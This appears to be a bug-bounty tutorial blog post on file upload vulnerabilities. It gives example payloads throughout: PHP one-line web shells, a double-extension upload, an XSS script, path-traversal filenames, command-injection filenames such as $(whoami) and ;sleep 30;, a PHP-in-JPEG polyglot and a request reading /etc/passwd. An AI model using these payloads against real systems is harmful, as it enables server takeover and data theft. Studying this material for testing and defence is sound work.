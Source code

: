 ```yaml
---
title: <img width="50" height="50" alt="img" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/72322038-9495-47ba-bf30-0caa7c1a7968"> File Upload Vulnerabilities 🗃️ 
date: 2024-01-16 07:00:02 +730
categories: [Resources, bugbounty]
tags: [fileupload-vulnerability,bug-bounty,100-days-of-cybersecurity] # TAG names should always be lowercase
mermaid: true

---
```



<h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 16</h1>


![File-Upload-Vulnerability-2760290964](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/72322038-9495-47ba-bf30-0caa7c1a7968){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }





# 1. Unrestricted File Type Upload:


Allowing users to upload files without proper validation can lead to the execution of malicious scripts. An attacker may upload a file with a double extension, such as "malicious.php.jpg," tricking the system into treating it as an image file while executing PHP code.

**Example Payloads:**
```php
<?php echo passthru($_GET['cmd']); ?>
```

```php
<?php echo exec($_POST['cmd']); ?>
```
```php
<?php system($_GET['cmd']); ?>
```
```php
<?php passthru($_REQUEST['cmd']); ?>
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.php.jpg"
Content-Type: image/jpeg

...binary data of the image...
```

# 2. File Size Limit Bypass:


Attackers can attempt to bypass file size restrictions by compressing files or splitting them into smaller parts. This may allow them to upload content exceeding the specified limits.

**Example Payload:**
```bash
# Splitting a file into parts
split -b 1M largefile.txt part
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="part1"
Content-Type: text/plain

...binary data of part 1...

POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="part2"
Content-Type: text/plain

...binary data of part 2...
```

# 3. Malicious File Content:


Attackers may manipulate file content to include malicious scripts or payloads, exploiting vulnerabilities in server-side processing.

**Example Payload:**
```html
<script>alert('XSS Attack');</script>
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.html"
Content-Type: text/html

<script>alert('XSS Attack');</script>
```

# 4. Path Traversal Attacks:


Path traversal vulnerabilities may allow attackers to upload files outside the intended directory, potentially gaining unauthorized access to sensitive information.

> The restrication may not be in the previous directory ! 😜 


**Example Payload:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="../sensitivefile.txt"
Content-Type: text/plain

...binary data of the file...
```

# Remote Command Execution (RCE) via File Name Parameter

If the application includes custom image processing or file manipulation, it may be susceptible to remote command execution through code injection in the file name.

## Example Valid File Names and Payloads:

| File Name            | Payload        | Outcome if Vulnerable  |
|----------------------|----------------|------------------------|
| a$(whoami)z.jpg      | $(whoami)      | a[CURRENT USER]z.jpg   |
| a\`whoami\`z.jpg     | \`whoami\`     | a[CURRENT USER]z.jpg   |
| a;sleep 30;z.jpg     | ;sleep 30;     | The application will take 30+ seconds to respond |



# 5. Denial of Service (DoS) through File Uploads:


Attackers may overwhelm the server by uploading a large number of files simultaneously.

**Example Payload:**
```bash
# Generating a large file
dd if=/dev/zero of=largefile.txt bs=1M count=100
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="largefile.txt"
Content-Type: application/octet-stream

...binary data of the large file...
```

# 6. Image-Based Attacks (Polyglot):


Exploiting vulnerabilities in image processing libraries to execute arbitrary code.

<iframe width="560" height="315" src="https://www.youtube.com/embed/uGk5_yDbSeQ?si=BKDXh1Xh7H_pMhkb" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

> simple way to achive this is using exiftool and embed the php webshell via comeents
{: .prompt-info }


**Example Payload (Image with Embedded Malicious Code):**
```bash
# Embedding malicious code in an image
echo -n '<?php system("ls -la"); ?>' >> malicious.jpg
```

**Request Snippet:**
```http
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ
Content-Disposition: form-data; name="file"; filename="malicious.jpg"
Content-Type: image/jpeg

...binary data of the image...
```

# 7. Insecure Direct Object References (IDOR):

**Vulnerability Description:**
File upload functionalities may introduce IDOR vulnerabilities, allowing attackers to manipulate file references.

**Example Payload:**
```http
GET /download?file=../../../etc/passwd HTTP/1.1
```

In this case, an attacker manipulates the file parameter to access sensitive files.

These examples illustrate the technical aspects of common file upload vulnerabilities and highlight the importance of implementing robust security measures to protect against them. Always validate, sanitize, and restrict file uploads to ensure the integrity and security of your web application.



![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
